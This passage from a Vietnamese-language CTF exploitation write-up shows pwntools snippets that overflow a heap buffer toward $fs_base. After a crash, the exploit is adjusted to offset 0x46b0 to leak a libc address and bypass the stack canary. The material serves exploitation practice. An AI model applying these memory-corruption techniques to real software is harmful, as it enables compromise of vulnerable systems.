 Kết quả là: 

![image](https://user-images.githubusercontent.com/57558487/196605709-643f0e9e-dedd-4916-9aef-acd322dfff38.png)

Ta có được một vùng nhớ với offset đến `$fs_base` là 0x4740, tuyệt vì ta có thể dùng nó để tấn công tiếp theo.

### Leaking and Fixxing bug

Vì chúng ta cần leak một địa chỉ và `canary`, nên ở đây mình chọn leak địa chỉ ở ngay vị trí `$fs_base` và đè qua `canary` để bypass. Tại ngay vị trí `$fs_base` có giá trị trả về chính nó, từ đây ta có thể tính toán được libc address. Như đã phân tích ở trên, ta cần thay `gSize[0] = 0x4070` chính xác để không bị gián đoạn bởi NULL byte.

Thử:

```python
create(1, 0x2000, b'A\n')
create(0, 0x2000, b'A\n')

show(0)
create(0, 0x4740)
edit(0, b'A' * 0x4740)
show(0)

s.recvuntil(b':\n')
d = s.recvuntil(b'A' * 0x4740)

leak = int.from_bytes(s.recv(6), byteorder = 'little', signed = False)
log.info('Leak: 0x%x', leak)
```

Bùm, vả crash ....

![image](https://user-images.githubusercontent.com/57558487/196610990-cb1f0d6f-dfe3-440e-a0cb-5f8e4527ac4b.png)

Mình kì vọng nó sẽ in ra giá trị tại `$fs_base`, tuy nhiên chương trình lại crash, dùng gdb để kiểm tra, ta có thể thấy chương trình crash tại `__vfscanf_internal+75`, lí do crash là vì chương trình đã cố đọc giá trị tại vùng nhớ [0x4141414141414141], một vùng nhớ không tồn tại.

-> Ok, dễ dàng nhận ra 0x4141414141414141 chính là chuỗi 'AAAAAAAA' ta đã đè vào đó, vậy tức là trong quá trình đè đến `$fs_base`, ta đã đè lên một vùng nhớ nào đó và khiến chương trình lỗi, ta cần xác định xem đâu là giá trị đầu tiên mà ta không thẻ overwrite trong khoảng cách từ mảng đến `$fs_base`.

![image](https://user-images.githubusercontent.com/57558487/196612490-b173805e-f71c-4e3d-8485-7ac33008aa2a.png)

Mình tiến hành dump và kiểm tra các giá trị ở gần phân vùng `$fs_base`, cuối cùng mình tìm thấy giá trị tại offset 0x46b0 chứa một địa chỉ nằm trong phần vùng `libc` -> ta có thể tính địa chỉ libc từ giá trị này.

Chỉnh sửa lại payload một chút, điều chỉnh target thành offset 0x46b0, mình có thể leak thành công mà chương trình vẫn chạy bth -> it really good.

```python
create(1, 0x2000, b'A\n')
create(0, 0x2000, b'A\n')

show(0)
create(0, 0x46b0)
edit(0, b'A' * 0x46b0)
show(0)

s.recvuntil(b':\n')
d = s.recvuntil(b'A' * 0x46b0)

leak = int.from_bytes(s.recv(6), byteorder = 'little', signed = False)
libc.address = leak - offset
```
